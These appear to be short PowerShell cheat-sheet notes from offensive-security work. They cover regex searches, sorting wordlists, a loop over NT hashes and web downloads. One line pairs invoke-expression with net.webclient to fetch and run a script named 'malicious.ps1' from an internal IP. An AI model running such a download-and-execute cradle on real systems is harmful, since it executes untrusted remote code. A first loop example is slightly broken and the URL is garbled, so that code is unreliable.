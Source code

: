 example in oliverlux

	select-string -Path *.txt -Pattern "[A-Z]{1,3}\d{3}" -Allmatches | foreach-object { write-host $_.Matches.Value ($_.filename -replace "txt","jpg") }

Example on using regex to remove spaces in the init of the line:

    cat .\nomes.txt | foreach-object { %{$_.split(":")[1]}} | foreach-object { %{$_ -replace("^ ","")}}

## locate in powershell

    get-childitem -recurse . file_name.txt

or in cmd

    dir /s

where "." is the path to start searching

## sort

sort-object

## sort -u

get-unique

Example:

cat wordlist.txt | get-unique | sort-object > wordlist_sorted.txt

## for in powershell

	for ($i=0; i -lt $hashes.length; i+=2) {
	... do something
	}
Pratical example:

	for ($i=0; $i -lt $hashes.length; $i+=2) { 
		SELECT-STRING -pattern $hashes[$i].replace('$NT$','') -context 5,0 doc.txt
		write-host $hashes[$i+1]
	}

# webclient
like wget
this get the html from www.google.com

    $webclient = (new-object net.webclient).DownloadString("http://www.google.com")

associated with iex Invoke-expression it is possible to download a malicious file:

	invoke-expression (new-object net.webclient).DownloadString("http://www.192.168.1.253/┼malicious.ps1")
	
# AV in powershell
